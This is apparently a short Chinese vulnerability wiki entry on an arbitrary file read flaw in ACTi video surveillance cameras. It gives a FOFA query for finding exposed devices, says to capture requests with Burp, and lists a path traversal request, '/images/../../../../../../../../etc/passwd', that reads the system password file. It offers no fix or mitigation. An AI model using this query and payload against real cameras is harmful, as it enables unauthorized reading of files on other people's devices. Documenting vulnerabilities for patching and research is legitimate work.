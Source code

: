 # ACTI 视频监控 任意文件读取漏洞

## 漏洞描述

ACTI 视频监控 存在任意文件读取漏洞

## 漏洞影响

> [!NOTE]
>
> ACTI摄像头

## FOFA

> [!NOTE]
>
> app="ACTi-视频监控"

## 漏洞复现

登录页面如下

![](http://wikioss.peiqi.tech/vuln/ac-1.png)

使用Burp抓包

```
/images/../../../../../../../../etc/passwd
```

![](http://wikioss.peiqi.tech/vuln/ac-2.png)

## Goby & POC

![](http://wikioss.peiqi.tech/vuln/ac-3.png)